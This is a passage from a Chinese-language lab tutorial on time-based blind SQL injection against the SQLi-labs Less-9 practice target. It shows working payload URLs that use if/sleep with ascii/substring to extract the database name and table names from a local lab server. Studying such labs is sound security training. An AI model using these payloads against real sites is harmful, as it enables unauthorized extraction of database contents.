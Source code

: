 ##### 演示：

```
mysql> select if(1=1, sleep(0), sleep(3));
+-----------------------------+
| if(1=1, sleep(0), sleep(3)) |
+-----------------------------+
|                           0 |
+-----------------------------+
1 row in set (0.00 sec)
```

### 注入流程-Less-9

#### 爆破当前数据库名

```
http://192.168.231.129:9001/Less-9/?id=1' and if(ascii(substring((select database()),1,1))=115, sleep(0), sleep(3))%23

http://192.168.231.129:9001/Less-9/?id=1' and if(ascii(substring((select database()),第几个字母,1))=115, sleep(0), sleep(3))%23
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230605212337339.png" alt="image-20230605212337339" style="zoom:50%;" />

#### 爆表

```
http://192.168.231.129:9001/Less-9/?id=1' and if(ascii(substring((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=114, sleep(0), sleep(3))%23

http://192.168.231.129:9001/Less-9/?id=1' and if(ascii(substring((select table_name from information_schema.tables where table_schema=database() limit 第几个表,1),第几个字母,1))=114, sleep(0), sleep(3))%23
```
